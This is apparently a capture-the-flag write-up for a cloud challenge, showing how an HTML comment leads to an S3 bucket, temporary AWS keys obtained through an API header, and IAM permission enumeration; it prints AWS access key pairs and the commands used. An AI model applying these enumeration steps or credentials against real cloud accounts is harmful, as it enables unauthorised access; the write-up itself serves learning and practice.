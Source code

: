 # Level 4B

![image](https://user-images.githubusercontent.com/82754379/188318980-32cbdff8-6a92-4a03-8d34-ff9fd8a4d0d7.png)

Heading over to the given URL at https://d20whnyjsgpc34.cloudfront.net/ I saw a page with (six) cat pictures:

![image](https://user-images.githubusercontent.com/82754379/188319697-22cd6b07-2594-4812-a149-74ed2375fe5d.png)


The source code for the web page revealed what could be clues:
```html
    <!-- Passcode -->
    <h1 class="mb-3">Cats rule the world</h1>
    <!-- Passcode -->
    <!-- 
      ----- Completed -----
      * Configure CloudFront to use the bucket - palindromecloudynekos as the origin
      
      ----- TODO -----
      * Configure custom header referrer and enforce S3 bucket to only accept that particular header
      * Secure all object access
    -->
```


## S3 Bucket

The clue indicated that there was an S3 bucket named "palindromecloudynekos", so I tried to access it within the browser at the URL "palindromecloudynekos.s3.amazonaws.com" and got an "Access Denied" result:

![Screenshot from 2022-09-05 00-23-26](https://user-images.githubusercontent.com/82754379/188323431-f0a06d2a-65de-45fc-9232-a8447d61cd75.png)

Reading through the write-ups for other S3-related Capture-The-Flag (CTF) challenges, I found that it may be possible to access the S3 bucket as long as I use an authenticated AWS account.

So, I signed up for an AWS account in the free tier and installed the AWS Command Line Interface (CLI), following the instructions in the online AWS documentation: https://docs.aws.amazon.com/cli/latest/userguide/getting-started-prereqs.html .

After creating a new "Administrator" user and its access keys, I configured the AWS CLI:
```
$ aws configure

AWS Access Key ID [None]: AKIARIXBOXQJ742N6JWC
AWS Secret Access Key [None]:  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
Default region name [None]: ap-southeast-1
Default output format [None]: json
```

Next I used the authenticated account to list the contents of the given S3 bucket:
```
$ aws s3 ls s3://palindromecloudynekos

                           PRE api/
                           PRE img/
2022-08-23 21:16:20         34 error.html
2022-08-23 21:16:20       2257 index.html
```

To make things easier, I mirrored the contents of the S3 bucket to a local directory on my machine:
```
$ aws s3 sync s3://palindromecloudynekos .

download: s3://palindromecloudynekos/api/notes.txt to api/notes.txt
download: s3://palindromecloudynekos/error.html to ./error.html 
download: s3://palindromecloudynekos/index.html to ./index.html 
download: s3://palindromecloudynekos/img/photo3.jpg to img/photo3.jpg
download: s3://palindromecloudynekos/img/photo2.jpg to img/photo2.jpg
download: s3://palindromecloudynekos/img/photo5.jpg to img/photo5.jpg
download: s3://palindromecloudynekos/img/photo4.jpg to img/photo4.jpg
download: s3://palindromecloudynekos/img/photo6.jpg to img/photo6.jpg
download: s3://palindromecloudynekos/img/photo1.jpg to img/photo1.jpg
```

The file **api/notes.txt** gave some clues:
```
$ cat api/notes.txt

# Neko Access System Invocation Notes

Invoke with the passcode in the header "x-cat-header". The passcode is found on the cloudfront site, all lower caps and separated using underscore.

https://b40yqpyjb3.execute-api.ap-southeast-1.amazonaws.com/prod/agent

All EC2 computing instances should be tagged with the key: 'agent' and the value set to your username. Otherwise, the antivirus cleaner will wipe out the resources.
```

The given URL must be accessed with an HTTP GET request with the correct header in order to obtain the next clue:
```
$ curl -H "x-cat-header: cats_rule_the_world" https://b40yqpyjb3.execute-api.ap-southeast-1.amazonaws.com/prod/agent

{"Message": "Welcome there agent! Use the credentials wisely! It should be live for the next 120 minutes! Our antivirus will wipe them out and the associated resources after the expected time usage.", "Access_Key": "AKIAQYDFBGMS4XGUWZVT", "Secret_Key": "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"}
```

Each new GET request to the same URL seemed to obtain a different pair of values for **Access_Key** and **Secret_Key**.

I stored the new set of credentials under a different profile and prepared to work with it:
```
$ aws configure --profile tisc

$ aws configure --profile tisc
AWS Access Key ID [None]: AKIAQYDFBGMS4XGUWZVT
AWS Secret Access Key [None]: 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
Default region name [None]: ap-southeast-1
Default output format [None]: json

$ export AWS_PROFILE=tisc
```

I installed [enumerate-iam.py](https://github.com/andresriancho/enumerate-iam) from Github and used it to identify the permissions that the given credentials possess:
```
$ ./enumerate-py.iam --access-key AKIAQYDFBGMS4XGUWZVT --secret-key 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
```

One of the things I could do was to list the IAM roles:
```
$ aws iam list-roles
```

A few roles stood out:

- ec2_agent_role
- lambda_agent_development_role
- lambda_agent_webservice_role
- lambda_cleaner_service_role

The existence of these roles suggested that I may be required to spin up an EC2 instance (and tag it with the key 'agent' with value set to my username), and also write some AWS lambda functions.



